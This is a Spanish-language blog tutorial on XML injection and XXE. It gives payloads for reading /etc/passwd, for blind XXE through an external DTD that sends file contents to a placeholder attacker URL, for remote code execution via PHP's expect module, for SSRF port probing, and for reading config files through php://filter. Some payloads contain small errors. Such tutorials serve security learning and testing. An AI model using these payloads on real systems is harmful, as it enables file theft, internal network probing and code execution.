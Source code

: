 ```yaml
---
title: "XML Injection"
layout: post
date: 2022-05-17 15:00
image: /assets/images/SQL_Injection.png
headerImage: true
tag:
- web
- hacking
- xml
category: blog
description: Técnica de XML Injection
---
```


# XML Injection

```ad-info
title:Consulta normal

/example.php?xml=<test>hacker</test>
```
```ad-warning
title:Consulta vulnerada

/example.php?xml=<!DOCTYPE foo [<!ENTITY xmli "testing">]><test>&xmli;</test>
```

**IMPORTANTE encodear los carácteres de la consulta**

# XML eXternal Entities - XXE
```ad-info
title:Es posible indicarle al parser XML un archivo externo para poder leerlo.
~~~xml
<!ENTITY name SYSTEM "URI">
```
```ad-example
title:Ejemplo
~~~xml
<!DOCTYPE message [
	...
	<!ENTITY xxefile SYSTEM "file:///etc/password">
]>
<message>
	<body>&xxefile;</body>
</message>
```
```ad-success
title:Petición
~~~xml
../example.php?xml=<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><test>&xxe;</test>
```

# Blind XXE Injection

En este caso es algo más complejo ya que el sistema tiene que tener acceso o visibilidad con el sistema del atacante.

La base de está vulnerabilidad está en la posibilidad de realizar peticiones por DTDs externos. Una manera simple de realizar una petición sería la siguiente:

```ad-seealso
title:exfill.dtd
~~~xml
<!ENTITY % file SYSTEM []"file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://[url atacante]/?x=%file;'>">
%eval;
%exfil;
```

Petición

```ad-success
title:Petición
~~~xml
../example1.php?xml=<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://[URL atacante]/exfil.dtd"> %xxe;]><test>hola</test>
```

# XXE to RCE - Remote Code Execution

Para poder hacer esto la aplicación tiene que tener habilitado el módulo ‘expect’ de PHP.

```xml
/example.php?xml=<!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "expect://PWD">]>
<test>&xxe</test>
```

Adicionalmente se podría lograr con otro métodos, como por ejemplo el uso de la clase de **Java XMLDecoder** en el lado del servidor.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/04b2522f-d817-4aa7-928f-92b228ffac9d/Untitled.png)

# XXE + SSRF

## Server-side Request Forgery

Esta vulnerabilidad se da cuando la máquina vulnerada puede hacer peticiones a otras máquinas internas de la organización, mostrando de forma total o parcial el recurso en la web.

También permite mapear servicios existentes en la red del sistema.

## Como explotar

Una vez se ha identificado una inclusión de ficheros dentro de una aplicación web se puede intentar utilizar esta para acceder a recursos internos de la organización.

### Ejemplo vulnerable

```xml
vulnerable.com/index.php?url=index.php
```

### Payloads

-   http://[..]:80/
-   http://[..]:25/ SMTP
-   http://[..]:22/ SSH
-   http://[..]:3128/ SQUID
-   [http://2130706433/](http://2130706433/) = [http://127.0.0.1](http://127.0.0.1)
-   [http://3232235521/](http://3232235521/) = [http://192.168.0.1](http://192.168.0.1)

# Evasión de filtros

## Parameter Entitites + CDATA + DTD

## Uso de PHP + Base64

Si convertimos el contenido de un archivo a base64 podemos imprimir carácteres especiales que no son imprimibles mediantes XML.

```xml
php://filter/read=**convert.base64-encode**/resource=/path/to/config.php
```

# Recursos externos

## **Ampliación general sobre la explotación de XXE:**

[PayloadsAllTheThings/XXE Injection at master · swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)

## Ampliación general sobre la explotación de SSRF:

[](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Requ)

## Tipos de inyecciones XXE:

[Lista de payloads para inyecciones XXE (XML External Entity)](https://www.hackplayers.com/2019/12/lista-de-payloads-para-inyecciones-xxe.html)